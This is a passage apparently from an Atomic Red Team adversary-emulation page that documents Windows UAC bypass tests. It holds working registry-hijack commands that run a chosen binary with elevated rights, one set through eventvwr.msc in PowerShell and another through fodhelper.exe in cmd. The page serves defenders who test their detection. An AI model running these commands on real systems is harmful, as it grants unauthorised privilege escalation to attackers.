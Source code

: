 


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\software\classes\mscfile\shell\open\command" -Force
Set-ItemProperty "HKCU:\software\classes\mscfile\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\eventvwr.msc"
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\software\classes\mscfile" -force -Recurse -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Bypass UAC using Fodhelper

auto_generated_guid: 58f641ea-12e3-499a-b684-44dee46bd182

Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.
Upon execution, "The operation completed successfully." will be shown twice and command prompt will be opened.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "#{executable_binary}" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe
```
